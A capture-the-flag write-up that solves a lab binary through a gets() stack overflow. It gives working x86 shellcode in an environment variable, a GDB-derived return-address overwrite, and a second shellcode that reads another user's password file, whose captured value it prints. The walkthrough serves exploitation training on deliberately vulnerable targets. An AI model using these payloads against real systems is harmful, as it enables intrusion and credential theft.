 ## LEVEL 04
---
### For a better understanding of the levels and the solutions, I recommend you to read the [disassemble file](./asm/level04.asm) and the [source file](./src/level04.c). This README only contains the most important parts to solve the level.
---
### Security
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level04/level04
```

For this level the usage of buffer overflow is possible.

---

I recommend that you read the entire source code because this level features complex code. My explanation will be brief, because it utilizes the same technique as many previous levels. If you encounter any difficulties in understanding, I suggest referring to the previous levels and my [rainfall](https://github.com/mathias-mrsn/rainfall) repository. I'm confident that you will find the answers to your questions there.

First thing I notice is that the program use `gets` who has a hugh vulnerability that we already used in the first levels of rainfall. So I will use it again.

```c
gets(local_var_20);
```

The second thing I noticed is the usage of `fork` for the first time. Essentially, `fork` creates a duplicate of the process, including its entire memory. Therefore, if we want to overwrite a specific address, we need to follow the child process using GDB. To achieve this, we can utilize the `follow-fork-mode` option.

```bash
(gdb) set follow-fork-mode child
```

I export the shellcode inside environment variable `SHELLCODE` and easily find the address of it.

```bash
export SHELLCODE=$(python -c 'print "\x90"*64 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')
```

Now we can launch gdb and find the length between the buffer and where the return address is stored. Also called the EIP offset.

```bash
(gdb) x/x $ebp+4
0xffffd6ac:	0xf7e45513
(gdb) x/x $esp+0x20
0xffffd610:	0x00000000
```

The EIP offset is 0x9c. Now we can use the same technique as the previous levels to overwrite the return address. Now we just need to address the address of the environment variable `SHELLCODE` to overwrite the address of the return address with it.

```bash
(gdb) x/s *((char**)environ)
0xffffd844:	 "SHELLCODE=\220\220\220\220\220\220\220\220
```

The address of the environment variable `SHELLCODE` is 0xffffd844. I add 0x20 to the address to jump over the environment variable name and reach the NOP. The final address is 0xffffd864.

Now we have everything we need to exploit this level. 

```bash
$ (python -c 'print "\x90"*156 + "\x44\xd8\xff\xff"'; cat -) | ./level04
Give me some shellcode, k
no exec() for you
```

No this doesn't seem to work. But why ?

```c
local_var_a8 = ptrace(3, local_var_ac, 0x2c, 0);
```

If we look this line that is executed in the parent process, we can see that the parent process is waiting for the child process to execute the `exec` syscall. If the child process doesn't execute the `exec` syscall, the parent process will kill the child process. And this is exactly what is happening here. The child process is killed before it can execute the `exec` syscall.

So I have to use code injection through `SHELLCODE` environment variable but this code must not execute `exec()`.

I use [this]("https://shell-storm.org/shellcode/index.html") website that I used in the level2 of rainfall to find the perfect shellcode. And I found it.

```shell
$ export SHELLCODE=$(python -c 'print "\x90"*64 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass"')
```

This shellcode only use libc functions already loaded inside the compiled binary. So it doesn't need to execute `exec()`, it only use C functions. Now let's try it.

```bash
$ (python -c 'print "\x90"*156 + "\x64\xd8\xff\xff"') | ./level04
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
child is exiting...
```

---

*Source :*

*https://sourceware.org/gdb/onlinedocs/gdb/Forks.html*